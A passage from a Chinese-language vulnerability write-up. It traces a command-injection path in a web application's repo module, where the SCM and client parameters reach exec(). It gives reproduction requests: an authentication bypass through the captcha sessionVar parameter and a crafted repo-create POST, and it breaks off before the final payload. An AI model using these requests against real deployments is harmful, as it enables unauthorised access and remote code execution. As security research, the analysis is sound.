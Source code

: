 
在第一行就发现，如果SCM为Gitlab的话，就直接返回true，通过了验证

接下来在control中找到调用这两个函数的方法即可，通过控制器传参控制

![image-20230620152422714](images/22.png)

### 漏洞复现

思路已经清晰了，通过create创建一个repo，在update中通过验证调用到setEngine，里面的SCM，client均为传入的可控参数，最后关头拼接到exec函数的命令里面

首先，通过权限绕过获得一个session，访问/index.php?m=misc&f=captcha&sessionVar=user

![image-20230620143603009](images/23.png)

然后，通过调用create创建一个repoId

```
/index.php?m=repo&f=create&objectID=0&tid=rmqcl0ss 

product%5B%5D=1&SCM=Gitlab&serviceProject=wangnima&name=wangnima2333&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=63e4a18218a68
```
